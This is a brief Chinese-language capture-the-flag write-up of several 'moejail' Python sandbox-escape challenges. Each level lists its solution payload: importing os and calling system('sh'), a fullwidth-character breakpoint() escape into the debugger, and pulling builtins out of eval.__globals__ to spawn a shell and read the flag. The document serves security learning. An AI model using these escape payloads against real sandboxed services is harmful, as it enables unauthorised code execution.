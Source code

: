 # moejail系列部分题目

## moejail_lv2

`__import__(input()).system(input())`

flag还在`/tmp`目录下，不过没有以`.`开头（是的lv1我被这个`.`开头的flag唬了好久）

## moejail_lv2.5

`eval(input())`然后`__import__('os').system('sh')`

## moejail_lv3

```
Give me your code: ｂｒｅａｋｐｏｉｎｔ()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system("sh")
cat /tmp/t*
```

## moejail_lv4

见 https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins 。提供了一个自定义eval函数，就能从这个函数里取出builtins

`eval.__globals__["__builtins__"].__import__("os").system("sh")`
